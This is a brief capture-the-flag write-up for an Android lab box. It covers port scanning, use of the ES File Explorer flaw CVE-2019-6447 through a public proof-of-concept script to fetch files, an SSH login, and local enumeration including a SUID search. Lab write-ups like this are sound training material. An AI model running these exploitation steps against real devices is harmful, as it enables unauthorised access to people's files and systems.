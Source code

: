 ### Box Info
OS: Android
IP: 10.10.10.247

### Skills learned:
ssh port forwarding
Andriod OS + tools

### Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Search
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1
+python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
+ ${IP}:59777/$dir/$.jpg


### Step 2
+ ssh -p 2222 $UN@${IP} 
+ ${PW}

### Info gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 
